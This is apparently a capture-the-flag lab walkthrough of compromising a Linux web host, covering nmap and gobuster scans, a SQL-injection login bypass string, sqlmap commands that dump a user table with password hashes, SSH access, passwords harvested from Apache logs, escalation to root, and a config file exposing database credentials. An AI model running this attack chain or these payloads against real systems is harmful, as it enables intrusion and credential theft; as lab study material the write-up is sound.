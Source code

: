 ## NMAP
```
nmap -A -T4 10.10.110.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 11:17 PDT
Nmap scan report for 10.10.110.45
Host is up (0.066s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)
|_  256 b45e8393c54249de7125927123b18554 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-title: Beta Login
|_Requested resource was http://10.10.110.45/login/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```
## SQL Injection to loginpag

User:
```
admin' or '1'='1
```
This takes us to index.php

## Gobuster
```
/login                (Status: 301) [Size: 312] [--> http://10.10.110.45/login/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.110.45/javascript/]
/notes                (Status: 301) [Size: 312] [--> http://10.10.110.45/notes/]
```
### http://10.10.110.45/notes/
```ToDo
Finish developing the application and make it public.

Remove personal account from database and update tables for production.

Perform unit testing.

Done
Update SSH Password to L3ZBT6wvj5m6sP!x
```
## SQL MAP
### req.txt
```
POST /login/ HTTP/1.1
Host: 10.10.110.45
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.110.45
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.110.45/login/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=svu4t16ph1ul779n82gavaqj1k
Connection: close

username=admin&password=admin
```
## SQLmap

```
sqlmap -r req.txt --dbs --batch
```

Results
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```

```
sqlmap -r req.txt --batch -D users --dbs --dump
```
Results
```rust
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 475bd541acb5528f4d8c8948b8ead2a3 | admin    |
| e07b04a6487acefafbd9b733914adc32 | adam     |
+----------------------------------+----------+
```
### SSH
```
ssh adam@10.10.110.45
adam@10.10.110.45's password: 
```
Searching for permissions
## ID
```
adam@DEV01-Ares:/etc/cron.daily$ id
uid=1000(adam) gid=1000(adam) groups=1000(adam),4(adm)
```
Look at the /var/log/apache2
```
adam@DEV01-Ares:/var/log/apache2$ cat access.log.1 |grep password
10.10.14.3 - - [03/Dec/2020:09:06:26 +0000] "GET /login/?username=admin&password=8NJxgU2CtVsJYZE5 HTTP/1.1" 200 625 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0"
10.10.14.3 - - [03/Dec/2020:09:06:26 +0000] "GET /login/?username=admin&password=$@#G34123421 HTTP/1.1" 200 625 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0"
```
## su root
```
adam@DEV01-Ares:/var/log/apache2$ su root
Password: 
root@DEV01-Ares:/var/log/apache2# id
uid=0(root) gid=0(root) groups=0(root)
```
Further Enumeration

```
root@DEV01-Ares:/var/www/html/login# ls
config.php  config.php.bak  index.php  license.txt  style.css```
Results
```
<?php
// Use SQL02 in production
$con = new mysqli("10.10.110.10", "root", "sbtR5t7cq7PWE3AJ", "users");

if ($con->connect_errno) {
    printf("connection failed: %s\n", $con->connect_error());
    exit();
}

?>

```
